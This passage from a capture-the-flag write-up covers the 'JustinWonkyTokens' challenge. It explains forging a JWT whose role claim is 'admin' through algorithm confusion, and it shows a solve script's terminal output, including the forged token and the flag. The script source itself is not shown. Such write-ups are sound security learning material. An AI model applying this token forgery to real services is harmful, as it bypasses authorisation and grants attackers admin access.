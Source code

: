 Armed with above information, we can forge our JWT `role` claim to `admin` via algorithm confusion. To do so, we can use the following solve script to get the flag.

<details><summary markdown="span"><strong>solve.php</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-WCUS-Capture-The-Flag/JustinWonkyTokens)-[2024.09.21|21:39:33(HKT)]
└> php solve.php
[*] Forging a new JWT...
[*] JWT header type: JWT | algorithm: HS256
[*] JWT payload claim role: admin
[+] Generated new JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiYWRtaW4ifQ.ievL1zWpAum7Ap1JxwZkE4Njyv39ogqoFbzxpcnXMrM
[*] Getting the flag...
[+] Flag: CTF{4lg0rithms_4r3_funny_1z268}
```

- **Flag: `CTF{4lg0rithms_4r3_funny_1z268}`**

## Conclusion

What we've learned:

1. JWT algorithm confusion